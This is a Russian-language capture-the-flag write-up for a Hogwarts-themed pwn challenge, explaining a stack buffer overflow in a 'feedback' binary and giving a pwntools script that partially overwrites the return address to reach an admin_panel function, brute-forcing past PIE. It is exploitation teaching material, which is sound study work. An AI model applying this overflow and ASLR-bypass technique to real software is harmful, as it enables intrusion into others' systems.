

# Пироги

Домашние эльфы пекут отличные пироги, но однажды один из учеников "Хогвартса" сказал, что пироги ему не понравились. Тогда эльфы написали программу для сбора обратной связи и дали доступ к ней студентам школы.

Через какое-то время сработали защитные заклинания - они показали, что программа опасна и уязвима! Помогите домашним эльфам найти проблему в программе.

- Рекомендуемые утилиты: Ghidra, GDB, Python (pwntools).
- Цель работы: исследование бинарного файла и восстановление логики его работы.
- Итог работы: получение доступа к флагу.
- Критерий оценки: предоставление правильного флага.

## Решение

Посмотрим на бинарный файл с помощью `pwn checksec`:

```sh
justmarfix@justpc: ~/infosec/pwn9
$ pwn checksec feedback
[*] '/home/justmarfix/infosec/pwn9/feedback'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

Заметим, что в бинаре включён PIE. Откроем бинарь в Ghidra и обратим внимание на функцию `submit_feedback`. 



Во второй буфер (размера 64) читается 100 байт. Это - очевидный BOF.

Заметим, что в бинаре есть функция `admin_panel`, которая выводит флаг. Перезапишем наш адрес возврата на неё.
Поскольку оффсет функции `admin_panel` (`0x1189`) отличается от адреса возврата функции `submit_feedback` (т.е. следующей инструкции в функции `main` после вызова функции `submit_feedback` - `0x132d`) на два байта, можно использовать брутфорс.

Вспомним, как генерируются адреса в PIE. Результирующий адрес инструкции вычисляется по формуле `PIE base + offset = addr`. Оффсет инструкции известен на моменте компиляции, а PIE base меняется от запуска к запуску. При этом PIE base - адрес страницы в памяти. Поскольку страницы имеют размер 4096 байт (0x1000 байт), то и адрес кратен 0x1000. В связи с этим последние три цифры в PIE base - нули.

Например, пусть `0x55e805438000` - PIE base. Тогда для инструкции с оффсетом `0x1234` результирующий адрес будет равен `0x55e805438000 + 0x1234 = 0x55e805439234`.

Таким образом, последние "полтора" байта в результирующем адресе всегда будут равны последним "полуторам" байтам оффсета. Нам остаётся пробрутить только половину второго с конца байта. Попробуем пробрутить, используя цифру "1" - следовательно, чтобы результирующий адрес заканчивался на `1189`, PIE base должна заканчиваться на `0000`. Будем запускать процесс несколько раз, ожидая момента когда случайное число станет равным нулю.

Код эксплоита:

```py
from pwn import ELF, p16, process

e = ELF("./feedback")
win_addr = e.sym["admin_panel"]  # 0x1189

while True:
    p = process(e.path)

    p.recvuntil(b"> ")
    p.sendline(b"1")
    p.send(
        b"A" * 32 + b"B" * 64 + b"C" * 8 + p16(win_addr)  # p16(0x1189) == b"\x89\x11"
    )

    result = p.recvall()
    if b"vsosh{" in result:
        print(result)
        break
```
